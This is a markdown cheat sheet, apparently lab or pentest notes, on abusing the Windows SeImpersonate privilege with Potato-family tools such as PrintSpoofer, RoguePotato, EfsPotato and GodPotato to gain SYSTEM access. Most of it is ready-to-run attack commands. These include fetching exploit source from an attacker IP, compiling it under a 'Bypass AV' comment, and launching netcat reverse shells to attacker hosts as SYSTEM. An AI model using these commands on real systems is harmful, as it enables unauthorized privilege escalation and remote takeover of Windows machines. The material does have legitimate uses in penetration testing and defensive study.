 # SeImpersonate

> [!WARNING]
> **JuicyPotato doesn't work** on Windows Server 2019 and Windows 10 build 1809 onwards. However, [**PrintSpoofer**](https://github.com/itm4n/PrintSpoofer)**,** [**RoguePotato**](https://github.com/antonioCoco/RoguePotato)**,** [**SharpEfsPotato**](https://github.com/bugch3ck/SharpEfsPotato)**,** [**GodPotato**](https://github.com/BeichenDream/GodPotato) can be used to **leverage the same privileges and gain** `**NT AUTHORITY\SYSTEM**` level access. This [blog post](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) goes in-depth on the `PrintSpoofer` tool, which can be used to abuse impersonation privileges on Windows 10 and Server 2019 hosts where JuicyPotato no longer works.

### SharpEfsPotato
```
SharpEfsPotato.exe -p C:\Windows\system32\WindowsPowerShell\v1.0\powershell.exe -a "whoami | Set-Content C:\temp\w.log"
```
### EfsPotato
https://github.com/zcgonvh/EfsPotato
```
Invoke-WebRequest -Uri http://10.10.14.165:8000/EfsPotato.cs -OutFile EfsPotato.cs

# Bypass AV
C:\Windows\Microsoft.Net\Framework\v4.0.30319\csc.exe EfsPotato.cs -nowarn:1691,618

./EfsPotato.exe '.\nc64.exe 10.10.14.165 5555 -e cmd'
```
### JuicyPotato
JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. 

```powershell
JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
```

However, [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) and [RoguePotato](https://github.com/antonioCoco/RoguePotato) can be used to leverage the same privileges and gain `NT AUTHORITY\SYSTEM` level access.

https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/
### RoguePotato
```powershell
RoguePotato.exe -r <AttackerIP> -e "shell.exe" -l 9999
```
### PrintSpoofer
```powershell
.\PrintSpoofer64.exe -c "C:\Users\Public\Documents\nc64.exe 10.10.14.165 5555 -e cmd"
```
### GodPotato
```powershell
GodPotato.exe -cmd "cmd /c whoami"
GodPotato.exe -cmd "shell.exe"
```

References:
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/roguepotato-and-printspoofer